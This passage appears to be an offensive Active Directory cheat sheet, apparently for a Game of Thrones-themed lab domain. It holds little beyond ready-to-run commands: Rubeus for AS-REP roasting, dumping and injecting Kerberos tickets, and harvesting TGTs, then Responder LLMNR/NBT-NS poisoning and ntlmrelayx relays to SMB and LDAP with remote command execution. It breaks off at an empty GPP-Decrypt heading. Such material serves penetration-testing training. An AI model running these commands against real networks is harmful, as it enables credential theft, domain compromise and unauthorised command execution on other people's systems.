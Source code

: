 **ASREPRoasting**
```
# Check for ASREPRoastable users
.\Rubeus.exe asreproast
.\Rubeus.exe asreproast /user:brandon.stark
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt
```

**Pass-the-Ticket**
```
# Extract tickets
.\Rubeus.exe dump
.\Rubeus.exe triage

# Use ticket
.\Rubeus.exe ptt /ticket:base64ticket

# Renew ticket
.\Rubeus.exe renew /ticket:base64ticket
```

**Unconstrained Delegation**
```
# Monitor for TGTs
.\Rubeus.exe monitor /interval:5
.\Rubeus.exe harvest /interval:30
```

### Responder

**LLMNR/NBT-NS Poisoning**
```bash
# Basic poisoning
responder -I eth0 -rdw

# Analyze mode (passive)
responder -I eth0 -A

# Disable SMB & HTTP servers (for relay)
responder -I eth0 -rdw --disable-ess
```

**With NTLM Relay**
```bash
# Setup relay targets
ntlmrelayx.py -tf targets.txt -smb2support

# Relay to LDAP (dump domain info)
ntlmrelayx.py -t ldap://kingslanding.sevenkingdoms.local -smb2support --dump-all

# Relay with execute commands
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

### GPP-Decrypt

